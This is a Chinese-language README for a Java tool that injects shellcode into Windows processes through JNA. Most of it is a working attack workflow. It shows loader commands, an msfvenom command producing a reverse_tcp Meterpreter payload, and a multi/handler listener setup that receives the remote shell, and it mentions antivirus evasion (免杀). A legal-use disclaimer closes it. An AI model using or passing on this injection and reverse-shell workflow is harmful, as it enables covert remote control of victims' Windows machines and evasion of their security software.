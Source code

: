 ## Java ShellCode Loader

基于Java实现的ShellCode加载器，兼容32位及64位平台。

核心原理是利用Jna来调用Windows API，实现shellcode的注入。

运行环境：Jre >= 1.5

注：本项目已经内置在[yzddmr6/As-Exploits](https://github.com/yzddmr6/As-Exploits)的ShellCodeLoader模块中。

## 编译

当前版本使用的jna经过魔改，不支持maven编译。

需要使用idea的构建工件功能进行打包，具体方法请咨询百度。

## 使用

默认会随机注入32位进程，请使用32位的shellcode

```
java -jar ShellcodeLoader.jar shellcode_hex
```

注入x64位shellcode

```
java -jar ShellcodeLoader.jar --x64 shellcode_hex
```

## 举例

### kali

生成hex格式的ShellCode

```
┌──(root💀kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.10 LPORT=4444 -f hex
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of hex file: 708 bytes
fce88f0000006089e531d2648b5xxxx
```

然后开启监听

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.88.10
set LPORT 4444
exploit -j
```

### 客户端

```
java -jar ShellcodeLoader.jar fce88f0000006089e531d2648b5xxxx
```

即可收到反弹的Meterpreter

## 免杀

![image-20211205205857990](README.assets/image-20211205205857990.png)

## 注意事项

本项目仅供合法的渗透测试以及爱好者参考学习，请勿用于非法用途，否则自行承担相关责任。
